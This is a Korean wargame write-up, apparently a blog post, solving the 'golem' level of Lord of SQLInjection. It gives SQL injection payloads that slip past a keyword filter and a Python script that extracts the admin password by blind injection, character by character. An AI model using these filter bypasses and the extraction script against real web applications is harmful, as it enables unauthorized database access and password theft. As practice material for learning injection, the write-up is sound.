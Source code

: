 ```yaml
---
layout: single
title: "[Lord of SQLInjection] golem write-up"
date: 2025-04-23 23:18 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (golem)

### ✏️ 풀이

preg_match 함수에서 어떤 문자가 필터링되고 있는지 보면 `prob _ . () or and substr( =` 인 것을 알 수 있다. 또한 아래에 코드를 보면 blind sqli로 풀어야 한다는 것도 알 수 있다.

![image-20250423231901598](/images/2025-04-23-golem/image-20250423231901598.png)

먼저 substr 함수를 우회하기 전에 guest로 Hello 쿼리가 나오는지 봐야 한다. 아래 페이로드를 통해 1=1 대신 1이라는 true 값과 or 대신 || 문자를 사용해서 우회할 수 있다.

```url
' || 1-- -
```

![image-20250423232409866](/images/2025-04-23-golem/image-20250423232409866.png)

<br>

아래 페이로드를 통해 blind sqli 쿼리를 한 번 만들어볼 수 있다. `=` 문자는 `like`로 대신하고, `substr`은 `right`와 `left` 함수를 같이 사용하면서 `substr` 함수와 동일하게 작동할 수 있다. 또한 `and` `or` 연산자 우선 순위와 `&&` `||` 문자로 대신해서 아래처럼 적용할 수 있다. 주의할 점은 url에 넣을 때 `&` 문자는 `%26` 으로 인코딩해서 넣어주어야 정상 작동한다.

```url
1' || id like 'admin' && right(left(pw, 1), 1) like 'a'-- -
```

![image-20250423234121171](/images/2025-04-23-golem/image-20250423234121171.png)

<br>

테스트 해보면 Hello admin이 잘 나오는 것을 볼 수 있다. 이제 pw 값을 blind sqli로 파이썬 코드를 짜야 한다.

![image-20250424001420040](/images/2025-04-23-golem/image-20250424001420040.png)

<br>

코드는 이렇게 작성했다. string 모듈을 이용해서 패스워드에 들어갈 문자를 password_charset에 넣고 substr 로 blind sqli할 때와 동일하게 작성하면 된다.

```python
import requests
import string

# 영어 대소문자 + 숫자 + 특수문자
password_charset = string.ascii_letters + string.digits + string.punctuation

print(f"테스트할 문자: {password_charset}")

password = ""
url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php"
cookie = {"PHPSESSID": "3gkm2054bi501f689hd20e39cp"}

for i in range(1, 100):
    found = False
    for j in range(0, len(password_charset)):
        param = {
            "pw": f"1' || id like 'admin' && right(left(pw, {i}), 1) like '{password_charset[j]}'-- -"
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        if "Hello admin" in r.text:
            found = True
            password += password_charset[j]
            print(f"[+] password {i}번째 자리는 {password_charset[j]}입니다.")
            break
    if not found:
        print("[-] End")
        break

print(password)

```

![image-20250424003913169](/images/2025-04-23-golem/image-20250424003913169.png)
